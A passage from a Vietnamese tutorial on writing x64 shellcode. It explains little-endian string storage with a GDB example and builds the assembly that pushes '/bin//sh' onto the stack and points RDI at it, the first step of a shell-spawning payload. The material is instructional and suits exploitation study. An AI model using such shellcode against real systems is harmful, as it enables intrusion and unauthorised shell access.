 Tiến hành [viết code assembly và chuyển sang shellcode](https://defuse.ca/online-x86-assembler.htm):

- Đầu tiên, ta phải nạp chuỗi filename `/bin/sh` vào thanh ghi RDI.    

Khi nạp 1 chuỗi giá trị vào 1 địa chỉ bộ nhớ (kiến trúc x64), từng kí tự từ trái sang phải trong chuỗi được chuyển sang dạng hex 1 byte và được ghép từ phải sang trái, tạo nên giá trị hex 8 bytes mới tương đương 8 kí tự đầu chuỗi. 8 bytes địa chỉ tiếp theo cũng tương tự nếu chuỗi dài hơn 8 kí tự...   
Ví dụ:
```
# Đã nạp chuỗi "123456789\n" vào địa chỉ 0x602260 ("\n" là khi nhấn Enter nhập chuỗi nó thêm vào)

x/3x 0x602260
# Xem giá trị tại địa chỉ 0x602260 trong GDB-peda

# Kết quả
0x602260:       0x34333231      0x38373635      0x00000a39   # 0x0a393837363534333231

# Cụ thể hơn
0x602260: 0x31  # "1"
0x602261: 0x32  # "2"
0x602262: 0x33  # "3"
0x602263: 0x34  # "4"
0x602264: 0x35  # "5"
0x602265: 0x36  # "6"
0x602266: 0x37  # "7"
0x602267: 0x38  # "8"
0x602268: 0x39  # "9"
0x602269: 0x0a  # "/n"
```
Như vậy, chuỗi `/bin/sh` được chuyển thành giá trị hex 0x68732f6e69622f. Nhưng giá trị này chỉ có 7 bytes, khi viết shellcode trên kiến trúc x64, giá trị sẽ tự động được thêm vào phía trước 1 bytes 0x00 để đủ 8 bytes (0x0068732f6e69622f). Nếu chuyển mã hex này sang chuỗi shellcode thì sẽ chứa kí tự \x00 ở cuối cùng (vi phạm lưu ý mình đã đề cập ở trên!).    
Việc cần làm bây giờ là thay thế chuỗi 7 bytes này thành 1 chuỗi 8 bytes có tác dụng tương tự. Theo mình được biết thì trong chuỗi filename `/bin/sh` dù có chứa 1 hay nhiều dấu "/" cũng sẽ mang ý nghĩa như nhau, hệ thống vẫn chạy được bình thường.   
Vậy thay vì dùng `/bin/sh` thì phải dùng `/bin//sh`.      

__Lưu ý nhẹ__: chuỗi trong python có hàm `encode("hex")` dùng để chuyển 1 chuỗi sang giá trị hex nhưng với thứ tự giống với thứ tự các kí tự trong chuỗi => máy tính có thể đọc ngược chuỗi. Vì vậy, nếu muốn dùng `encode("hex")` để chuyển đổi cho nhanh thì ta nên đảo ngược chuỗi trước rồi mới encode sau.
```
"/bin//sh"[::-1].encode("hex")
# Đảo ngược chuỗi rồi encode sang giá trị hex

# Kết quả
68732f2f6e69622f
```

Vậy ta sẽ nạp giá trị 0x68732f2f6e69622f vào thanh ghi RDI để có thể thực thi `/bin/sh`.    
Bằng cách reset thanh ghi RAX = 0x0, rồi push RAX vào stack (push giá trị 0x0 = kí tự NULL đánh dấu kết thúc chuỗi vào stack để đánh dấu kết thúc chuỗi `/bin//sh`), sau đó mới nạp giá trị 0x68732f2f6e69622f vào RAX rồi push vào stack. Lúc cần lấy giá trị chuỗi ra thì ta chỉ việc nạp từ thanh ghi RSP (đỉnh stack).    
```
xor rax, rax
push rax
mov rax, 0x68732f2f6e69622f
push rax
mov rdi, rsp
```
